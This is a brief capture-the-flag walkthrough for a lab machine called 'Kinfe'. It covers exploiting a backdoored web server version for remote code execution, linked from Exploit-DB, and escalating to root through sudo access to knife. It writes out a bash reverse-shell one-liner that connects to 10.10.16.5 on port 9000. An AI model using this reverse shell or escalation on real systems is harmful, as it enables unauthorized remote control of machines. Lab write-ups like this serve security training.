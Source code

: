 # Kinfe

## Nmap scan

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

## Site exploitation

Googling this version of apache we can see someone left a backdoor in it that allows for RCE. This was really fasicinating to read up about and incredibly easy to exploit see bellow on exploit db and wireshark.

{% embed url="https://www.exploit-db.com/exploits/49933" %}

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Now that we know we have code exectution we can run a simple reverse shell like this

```
bash -c 'bash -i >& /dev/tcp/10.10.16.5/9000 0>&1'
```

And we have a shell and the user flag!!

## Priv esc

This was a very simple one. Running sudo -l shows us we can run knife as root we can use [this ](https://gtfobins.github.io/gtfobins/knife/)priv esc to gain a root shell.

And PWNDDDD!!!
